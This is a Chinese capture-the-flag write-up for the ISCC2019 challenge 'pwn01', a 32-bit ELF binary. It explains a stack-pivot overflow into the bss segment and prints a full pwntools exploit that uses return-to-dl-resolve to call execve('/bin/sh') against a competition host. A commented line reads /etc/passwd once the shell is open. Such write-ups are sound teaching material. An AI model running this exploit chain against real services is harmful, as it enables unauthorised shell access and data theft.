

## pwn01

首先分析文件

Linux32位程序，开了NX和Partial RELRO

```shell
$ file pwn01
pwn01: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c1f12d4c211267af2646f60f57e1dce2086fd028, not stripped
$ checksec  pwn01
[*] '/mnt/c/workspace/ctf/ISCC2019/PWN/pwn01'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

main函数存在溢出点


首先调用read函数，从标准输入中读取至多0xF4240个字节的数据，保存到buf中。其中&buf指向.bss段的起始位置，也就是说我们可以控制bss段上的数据。

然后调用memcpy函数将读取到的数据复制到栈上

最后main函数根据栈上的信息恢复esp和ebp



溢出时会把对应位置的数据破坏掉，导致esp和ebp变成padding的数据，考虑将相应位置的数据换成bss段上的数据。

由于程序的plt表中只有read, memcpy, __libc_start_main这三个函数，以及程序也没有提供其他能利用的函数，所以需要使用return to dl-resolve方法来做这道题，调用libc中的函数来getshell

附上exp

```python
#!/usr/bin/python2
#coding: utf8

from pwn import *
import roputils
import sys

import time

mode = "debug" if len(sys.argv) >0 else "release"

if mode == 'debug':
    session = process("../pwn01")
else:
    session = remote("39.100.87.24", "8101")

bss_start = 0x804A040

#存储栈上的数据
fake_stack_esp = bss_start + 0x200
#放置栈的位置有些要求，因为bss上面就是不可写的text段，所以为了防止程序移动esp到text段，需要向下放
#太往下会导致padding过多，导致我用的socat提示broken pipe
#Though this challenge is using https://github.com/giantbranch/pwn_deploy_chroot
fake_stack_ebp = fake_stack_esp + 0x250

#存储解析符号的结果
fake_resolve_start = bss_start + 0x300

print "bss_start:", hex(bss_start)
print "fake_stack_esp:", hex(fake_stack_esp)
print "fake_stack_ebp:",hex(fake_stack_ebp)
print "fake_resolve_start:", hex(fake_resolve_start)

rop = roputils.ROP("../pwn01")


#篡改栈指针，劫持栈:
payload = "A"*(0x16-0x8) + p32(fake_stack_esp+4) + "BBBB" + p32(fake_stack_ebp)
#padding到fake栈的位置:
payload += "S" * (0x200-len(payload))
#让main函数执行完后调用read函数，将数据写到fake_resolve_start，其中解析符号用的数据的位置为fake_resolve_start + 50
payload += rop.call('read', 0, fake_resolve_start, 100)
#执行完read函数后再去用刚写过去的解析符号用的数据来解析execve的位置
#并调用execve(fake_resolve_start+8, fake_resolve_start, 0)
#即execve("/bin/sh", 指向参数数组的指针, 指向环境数组的指针)
#这里参数无所谓，但必须要有，环境数组的指针为0. 具体为什么需要问出题人怎么魔改的/bin/sh文件
#19-5-11更新：因为sd出题人的catflag.c:43中的一句 if (argc == 1)
#所以直接调用execve函数需要有参数，且只能有一个
payload += rop.dl_resolve_call(fake_resolve_start + 50, fake_resolve_start+8, fake_resolve_start,0)
#gdb.attach(session, '\n'.join(['b*0x080484ae', 'c', "b*0x08048519", "b*system"]))
if mode != 'debug': time.sleep(1)
session.sendline(payload)

#pause = raw_input("enter to continue...")
#准备execve函数的参数
#evecve的第一个参数a为要执行的文件的位置
#第二个参数b为调用这个文件时传递过去的参数，参数要用一个数组存储，以空指针标识参数的结束。参数b为指向这个参数数组的指针
#第三个参数c为指向传递过去的环境变量数组的指针
#这里先放置了参数数组
payload2 = p32(fake_resolve_start+20)#指向参数字符串
payload2 += p32(0)#空指针标识结束
#然后是可执行文件的路径
payload2 += rop.string("/bin/sh")
payload2 += rop.fill(20, payload2)
#然后是参数字符串
payload2 += rop.string("date")
payload2 += rop.fill(50, payload2)
#用于定位execve函数的数据
payload2 += rop.dl_resolve_data(fake_resolve_start + 50, "execve")
if mode != 'debug': time.sleep(1)
session.sendline(payload2)

#session.sendline("cat /etc/passwd")
session.interactive()
session.close()
```


